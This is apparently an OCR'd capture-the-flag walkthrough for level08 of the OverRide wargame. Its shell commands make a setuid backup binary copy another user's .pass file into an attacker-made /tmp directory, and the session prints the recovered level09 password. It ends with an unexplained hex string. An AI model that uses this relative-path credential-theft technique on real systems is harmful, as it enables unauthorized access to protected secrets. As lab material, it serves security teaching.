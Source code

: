 level08@OverRide:~$ cd /tmp
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09/
level08@OverRide:/tmp$ echo > backups/.log
level08@OverRide:/tmp$ chmod 777 backups/.log
level08@OverRide:/tmp$ /home/users/level08/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S




ffffffecec63616220ffffffffffffe8d2400d9660301072617453636162206666203a63656365


